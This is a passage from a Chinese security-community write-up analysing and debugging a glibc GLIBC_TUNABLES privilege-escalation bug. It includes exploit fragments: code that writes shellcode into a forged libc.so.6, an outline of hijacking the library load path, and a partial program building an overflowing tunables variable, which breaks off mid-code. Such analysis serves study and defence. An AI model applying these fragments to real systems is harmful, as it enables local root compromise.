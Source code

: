 

# 一次 glibc 提权漏洞的分析与调试 - 先知社区

一次 glibc 提权漏洞的分析与调试

- - -

# 漏洞版本

glibc 2.35-0ubuntu3 (aarch64)

glibc 2.36-9+deb12u2 (amd64)

# 漏洞利用

## exp 关键代码

```plain
with open(hax_path["path"] + b"/libc.so.6", "wb") as fh:
        fh.write(libc_e.d[0:__libc_start_main])
        fh.write(shellcode)
        fh.write(libc_e.d[__libc_start_main + len(shellcode) :])
```

**exp 代码思路**

该漏洞发生在 GLIBC\_TUNABLES 环境变量处理过程中，可能存在缓冲区溢出漏洞。  
通过修改 GLIBC\_TUNABLES 的值来替换 libc 的加载路径，从而加载自己修改过的恶意库。  
找到一个合适的栈地址来覆盖原始的 libc 加载路径  
使用 ASLR 关闭的方式来尝试利用该漏洞

## 调试

**test.c**

```plain
#include <stdio.h>

unsigned long ptr = -0x18ULL;

int main(int argc, char *argv[])
{
    printf("test");
    return 0;
}
```

**环境变量**

```plain
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void *__minimal_malloc(size_t size) {
    return malloc(size);
}

int main() {
    char fill[0xd00];
    const char *prefix = "GLIBC_TUNABLES=glibc.malloc.mxfast=";
    strcpy(fill, prefix);

    size_t prefixLength = strlen(prefix);
```